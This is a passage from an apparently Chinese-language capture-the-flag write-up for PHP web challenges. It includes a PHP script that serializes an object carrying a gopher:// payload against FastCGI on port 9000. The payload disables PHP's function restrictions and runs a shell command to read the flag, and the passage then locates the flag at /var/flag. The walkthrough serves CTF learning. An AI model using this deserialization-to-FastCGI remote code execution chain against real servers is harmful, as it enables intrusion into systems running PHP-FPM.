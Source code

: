 

![image-20230523125606024](https://raw.githubusercontent.com/leekosss/photoBed/master/202305231256133.png)

使用**sleep命令**测试一下存在延迟，

经过测试，存在延迟，所以我们可以利用fastcgi去执行命令

![image-20230523125919040](https://raw.githubusercontent.com/leekosss/photoBed/master/202305231259098.png)



```php
<?php

class dao
{
    private $config;
    public function __construct() {
        $this->config = new config();
    }
}
class config
{
    public $update_url = 'gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%00%F6%06%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH58%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%09SCRIPT_FILENAMEindex.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00%3A%04%00%3C%3Fphp%20system%28%27tac%20f%2A%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00';
}


$d = new dao();
echo base64_encode(serialize($d));


```

然后传参





### web310

经过测试，fastcgi的端口9000还是开放的，可以延迟，但是我们却读取不出flag了

我们先查找一下flag的路径：

![image-20230523132016898](https://raw.githubusercontent.com/leekosss/photoBed/master/202305231320954.png)



发现flag在 `/var/flag` 下：
